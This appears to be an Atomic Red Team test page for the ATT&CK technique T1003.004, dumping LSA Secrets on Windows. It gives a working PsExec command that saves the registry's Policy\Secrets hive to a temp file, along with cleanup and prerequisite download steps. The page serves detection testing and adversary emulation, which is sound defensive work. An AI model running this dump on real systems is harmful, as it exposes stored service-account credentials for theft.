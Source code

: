 # T1003.004 - OS Credential Dumping: LSA Secrets
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)
<blockquote>Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)


<br/>

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{psexec_exe} -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{psexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip"
Expand-Archive PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip PathToAtomicsFolder\..\ExternalPayloads\PSTools -Force
New-Item -ItemType Directory (Split-Path #{psexec_exe}) -Force | Out-Null
Copy-Item PathToAtomicsFolder\..\ExternalPayloads\PSTools\PsExec.exe #{psexec_exe} -Force
```




<br/>
